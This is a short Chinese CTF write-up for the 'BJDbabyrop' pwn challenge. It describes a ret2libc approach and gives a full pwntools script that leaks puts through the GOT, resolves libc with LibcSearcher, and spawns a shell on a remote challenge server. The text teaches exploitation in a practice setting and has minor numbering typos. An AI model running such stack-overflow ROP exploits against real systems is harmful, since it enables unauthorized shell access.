 我们首先拿到题目，发现没有后门函数，没有我们的 rop 链，栈不可执行，于是我们需要考虑使用我们的 ret 2 libc。我们只需要按照我们的标准流程执行


第零步：确定 libc 版本

第一步：找到我们的 pop_rdi

第一步：找 libc 基地址

第二步：构造我们的 libc 数值。

在这里，我们难点在于我们的第 0 部，如果我们没有确定我们 libc 版本的，我们就需要用我们的 libcsearcher 来协助我们进行我们的工作。
```
from pwn import *
from LibcSearcher import *
ex = "./BJDbabyrop"
#p = process(ex)
p = remote("1.14.71.254",28221)
elf = ELF(ex)
libc = ELF("libc-2.23.soo")

pop_rdi = 0x0000000000400733

pay1 = b"a"*0x20 + p64(0) + p64(pop_rdi)+ p64(elf.got["puts"]) + p64(elf.plt["puts"]) + p64(elf.sym["main"])

p.sendline(pay1)

puts = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))

libc = LibcSearcher("puts",puts)
libc_base = puts - libc.dump("puts")
success("libc: " + hex(libc_base))

pay2 = b"a"*0x20 + p64(0) + p64(pop_rdi )+ p64(libc_base +libc.dump("str_bin_sh")) + p64(libc_base+ libc.dump("system")) 

p.sendline(pay2)

p.interactive()
```